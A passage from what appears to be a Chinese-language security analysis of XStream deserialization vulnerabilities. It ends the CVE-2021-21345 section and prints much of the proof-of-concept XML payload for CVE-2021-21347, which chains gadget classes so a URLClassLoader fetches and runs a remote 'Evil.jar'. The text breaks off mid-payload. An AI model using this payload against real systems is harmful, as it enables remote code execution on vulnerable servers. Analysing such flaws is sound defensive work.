 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosox6EzfWylQqAJ0Xwrrx7u8rGDicJwguloQ56SMBa5QU0KaDnzHmMfia2nw/640?wx_fmt=png)

由于调用栈和 CVE-2021-21344 基本一样所以就不再重复粘贴的，至此 CVE-2021-21345 分析完毕  

**0x04  CVE-2021-21347**
========================

首先先看下 POC

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='javafx.collections.ObservableList$1'/>
    </default>
    <int>3</int>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
      <dataHandler>
        <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
          <contentType>text/plain</contentType>
          <is class='java.io.SequenceInputStream'>
            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
              <iterator class='com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator'>
                <names class='java.util.AbstractList$Itr'>
                  <cursor>0</cursor>
                  <lastRet>-1</lastRet>
                  <expectedModCount>0</expectedModCount>
                  <outer-class class='java.util.Arrays$ArrayList'>
                    <a class='string-array'>
                      <string>Evil</string>
                    </a>
                  </outer-class>
                </names>
                <processorCL class='java.net.URLClassLoader'>
                  <ucp class='sun.misc.URLClassPath'>
                    <urls serialization='custom'>
                      <unserializable-parents/>
                      <vector>
                        <default>
                          <capacityIncrement>0</capacityIncrement>
                          <elementCount>1</elementCount>
                          <elementData>
                            <url>http://127.0.0.1:80/Evil.jar</url>
                          </elementData>
                        </default>
                      </vector>
                    </urls>
                    <path>
                      <url>http://127.0.0.1:80/Evil.jar</url>
                    </path>
                    <loaders/>
                    <lmap/>
                  </ucp>
                  <package2certs class='concurrent-hash-map'/>
                  <classes/>
                  <defaultDomain>
                    <classloader class='java.net.URLClassLoader' reference='../..'/>
                    <principals/>
                    <hasAllPerm>false</hasAllPerm>
                    <staticPermissions>false</staticPermissions>
                    <key>
                      <outer-class reference='../..'/>
```